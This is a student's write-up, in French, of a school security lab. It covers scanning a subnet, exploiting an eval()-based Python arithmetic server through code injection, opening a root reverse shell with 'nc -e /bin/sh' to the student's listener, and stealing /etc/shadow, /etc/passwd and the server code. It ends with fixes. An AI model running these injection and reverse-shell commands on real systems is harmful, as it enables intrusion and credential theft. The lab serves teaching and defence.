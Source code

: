# TP5 : Exploit, pwn, fix

Encore un TP de dév, mais où vous ne développez pas ! Pas mal nan ?

Le but : **exploiter un code vulnérable et proposer des remédiations** pour qu'il ne le soit plus.

La mise en situation est assez proche d'un cas réel, en restant dans des conditions de TP.

> **Pour maximiser le fun, ne discutez de rien de tout ça ni avec les dévs, ni avec les infras**, restez dans votre secte de sécu :D Si tu joues le jeu c'est un exercice cool, moins tu le jeu, plus il est nul !

![Gunna be hax](./img/gunna_be_hacker.png)

## Sommaire

- [TP5 : Exploit, pwn, fix](#tp5--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [0. Setup](#0-setup)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 0. Setup

➜ **Je vous filerai un lien en cours pour télécharger le client d'une application**

- pas possible de commencer le TP tant que j'ai rien donné donc, attendez le feu vert !

➜ Votre but : 🏴‍☠️ **prendre le contrôle du serveur** 🏴‍☠️

## 1. Reconnaissance

> ***Cette section est en grande partie uniquement réalisable en cours. Perdez pas de temps.***

➜ On a de la chance dis donc ! Du Python pas compilé !

- prenez le temps de lire le code
- essayez de le lancer et de capter à quoi il sert

🌞 **Déterminer**

IP : 10.1.2.12
PORT :13337


```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
ERROR 2023-11-30 15:20:35,861 Impossible de se connecter au serveur 10.1.2.12 sur le port 13337
```

➜ **On me dit à l'oreillette que cette app est actuellement hébergée au sein de l'école.**

🌞 **Scanner le réseau**

```
PS C:\Users\guill> nmap -T2 -Pn -sT -p13337 10.33.64.1/20
```

[Resultat](./result.txt)

🦈 **tp5_nmap.pcapng**

![Capture](./result.pcapng)

🌞 **Connectez-vous au serveur**

```python
IP = 10.33.67.166
PORT = 13337
```

```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
Veuillez saisir une opération arithmétique : 9*9
```

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

Ca doit lever un giga red flag dans votre esprit de hacker ça. Tu saisis ce que tu veux, et le serveur le lit et l'interprète.

🌞 **Injecter du code serveur**

```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
Veuillez saisir une opération arithmétique : __import__('subprocess').getoutput('echo coucou')
```

Log

```log
2023-11-30 16:35:59 INFO Connexion r�ussie � 10.33.67.166:13337
2023-11-30 16:36:09 INFO Message envoy� au serveur 10.33.67.166 : __import__('subprocess').getoutput('echo Bonjour Lorens comment �a va ?')
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

- **en premier**
  ```
  PS C:\Users\guill> ncat -l -vv -p 9999     
  ```
- **en deuxième**
  ```log
  INFO Connexion reussie : 10.33.70.40:50002
  INFO Message envoye au serveur 10.33.70.40 : __import__('subprocess').getoutput('yum install nc -y')
  INFO Reponse recue du serveur 10.33.70.40 : b'Last metadata expiration check: 0:22:28 ago on Fri 01 Dec 2023 02:22:47 PM CET.\nPackage nmap-ncat-3:7.92-1.el9.x86_64 is already installed.\nDependencies resolved.\nNothing to do.\nComplete!'
  INFO Connexion reussie : 10.33.70.40:50002
  INFO Message envoye au serveur 10.33.70.40 : __import__('subprocess').getoutput('nc -e /bin/sh 10.33.76.184 9999')
  ```
- **enfin**
  ```
  Ncat: Connection from 10.33.70.40:41324.
  echo toto
  toto
  whoami
  root
  ```

🌞 **Pwn**

- voler les fichiers `/etc/shadow` et `/etc/passwd`
[Shadow](./shadow.txt)
[Passwd](./passwd.txt)
- voler le code serveur de l'application
[Code](./server.py)
- déterminer si d'autres services sont disponibles sur la machine
[Services](./service.txt)

## 4. Bonus : DOS

Le DOS dans l'esprit, souvent c'est :

- d'abord t'es un moldu et tu trouves ça incroyable
- tu deviens un tech, tu te rends compte que c'est pas forcément si compliqué, ptet tu essaies
- tu deviens meilleur et tu te dis que c'est super lame, c'est nul techniquement, ça mène à rien, exploit c'est mieux
- tu deviens conscient, et ptet que parfois, des situations t'amèneront à trouver finalement le principe pas si inutile (politique ? militantisme ?)

⭐ **BONUS : DOS l'application**

- faut que le service soit indispo, d'une façon ou d'une autre
- fais le crash, fais le sleep, fais le s'arrêter, peu importe

## II. Remédiation

🌞 **Proposer une remédiation dév**

Code clienet.py :
Supprimer la condition qui vérifie si l'imput est un nombre ou pas
[CodeClient](./client.py)

Code server.py :
Rajoute la condition initialement présent dans client.py pour vérifier si l'imput est un nombre ou pas
Attention à l'utilisation de eval() qui est dangereux
[CodeServer](./server.py)

🌞 **Proposer une remédiation système**

Créer un nouveau user avec des droits limités et lancer le service avec ce user pour que le service ne puisse pas accéder à des fichiers sensibles

On ne doit pas pouvoir ouvrir le firewall avec le user sauf le port du service


